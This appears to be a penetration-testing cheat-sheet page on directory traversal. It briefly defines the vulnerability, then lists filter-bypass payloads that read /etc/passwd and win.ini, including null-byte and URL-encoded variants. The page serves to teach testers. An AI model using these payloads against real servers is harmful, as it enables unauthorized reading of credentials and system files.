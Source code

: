 # 🔴 Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

**URL Encoding**

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |

